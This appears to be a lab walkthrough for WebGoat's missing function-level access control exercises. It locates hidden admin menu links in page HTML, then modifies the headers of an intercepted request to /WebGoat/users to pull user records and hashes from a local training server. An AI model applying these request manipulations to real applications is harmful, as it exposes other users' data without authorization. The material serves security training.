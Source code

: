 # Missing Function Level Access Control
## Relying on Obscurity
- hidden items
- HTML or javascript comments
- commented out elements
- items hidden via css controls/classes

## Exercise 1
Task 1: Find the hidden items

Inspect the elements of the menu
```html
<div class="menu-section ui-accordion-content ui-helper-reset ui-widget-content ui-corner-bottom ui-accordion-content-active" id="ui-accordion-ac-menu-panel-0" aria-labelledby="ui-accordion-ac-menu-header-0" role="tabpanel" aria-expanded="true" aria-hidden="false" style="display: block; height: 110px;">
  <ul>
    <li>My Profile</li>
    <li>Privacy/Security</li>
    <li>Log Out</li>
  </ul>
</div>
```
Below this portion, search for `class="hidden-menu-item"`:
```html
<h3 class="hidden-menu-item menu-header ui-accordion-header ui-helper-reset ui-state-default ui-corner-all ui-accordion-icons" role="tab" id="ui-accordion-ac-menu-header-2" aria-controls="ui-accordion-ac-menu-panel-2" aria-selected="false" tabindex="-1">
  <span class="ui-accordion-header-icon ui-icon ui-icon-triangle-1-e"></span>
  Admin
</h3>
```
```html
<div class="menu-section hidden-menu-item ui-accordion-content ui-helper-reset ui-widget-content ui-corner-bottom" id="ui-accordion-ac-menu-panel-2" aria-labelledby="ui-accordion-ac-menu-header-2" role="tabpanel" aria-expanded="false" aria-hidden="true" style="display: none; height: 110px;">
  <ul>
    <li><a href="/users">Users</a></li>
    <li><a href="/config">Config</a></li>
  </ul>
</div>
```
Therefore:
```
Hidden Item 1 = Users
Hidden Item 2 = Config
```

## Exercise 2
Task: get hash of own user account

Using the /user url from the previous exercise, open tab and enter it in browser `http://localhost:8080/WebGoat/users`

Results:
```
2 Users in WebGoat
```

Intercept this GET request using burp
```
GET /WebGoat/users HTTP/1.1
Host: localhost:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: JSESSIONID=2028571AC38F0166BE61982DBA33B8E4
Connection: close
```
Change the `Accept` field to `application/json`, and add the `Content-Type` field with `application/json;charset=UTF-8`.
```
GET /WebGoat/users HTTP/1.1
Host: localhost:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
Accept: application/json
Content-Type: application/json;charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: JSESSIONID=2028571AC38F0166BE61982DBA33B8E4
Connection: close
```
Results:
```
HTTP/1.1 200
X-Application-Context: application:8080
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
X-Frame-Options: DENY
Content-Type: application/json;charset=UTF-8
Date: Sun, 21 Oct 2018 14:41:15 GMT
Connection: close
Content-Length: 237

[ {
  "username" : "csrf-tingle",
  "admin" : false,
  "userHash" : "Hi/W1zLGPYrFTfwVWwt9OSVmDi6D2yhBjEY8plZ6hAw="
}, {
  "username" : "tingle",
  "admin" : false,
  "userHash" : "eejTQQOde0mqy+5td9nuHNWSNrqrmrxBXCul+5cXRmk="
} ]
```
